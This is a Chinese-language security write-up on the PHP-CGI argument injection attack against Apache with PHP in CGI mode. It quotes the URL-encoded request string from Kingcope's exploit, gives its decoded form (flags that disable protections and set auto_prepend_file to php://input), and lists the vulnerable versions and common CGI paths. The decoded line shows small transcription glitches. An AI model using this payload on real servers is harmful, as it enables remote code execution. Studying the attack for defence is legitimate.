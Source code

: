 

## apache+php cgi mod攻击

### 原理

php作为cgi模式运行的时候，接受-s  -d -c 这样的参数，我们看看这些参数的功能

```html
-s Output HTML syntax highlighted source -d foo[=bar] Define INI entry foo with value bar
```

然后再看看攻击代码片段

```php
char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F" \ "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64" \ "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73" \ "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E" \ "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63" \ "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62" \ "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74" \ "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68" \ "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F" \ "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63" \ "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73" \ "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n" \
```



解码出来是



```php
%s?-d allow_url_include=on -d safe_mode=off -d suhosin.simulation3Don -d disable_functions="" -d open_basedir=none -d auto_prepend_file=php://input -d cgi.fo"rce_redirect=0 -d cgi.redirect_status_env=0 -n
```



这样Kingcope的攻击代码思路就出来了。

关闭各种防护的参数，打开各种危险的参数，最后利用auto_prepend_file（或auto_append_file）这个参数把黑客需要执行的系统命令传递过去了。

### 利用条件

1、apache+php是用cgi模式跑的，例如apache的mod_cgid

2、php解释器需要可以从下面的url访问到，当然或许可能是其他的url，这个具体要看你的配置

```html
	/cgi-bin/php
	/cgi-bin/php5
	/cgi-bin/php-cgi
	/cgi-bin/php.cgi
	/cgi-bin/php4
```

3、php版本
PHP版本小于5.3.12
PHP版本小于5.4.2
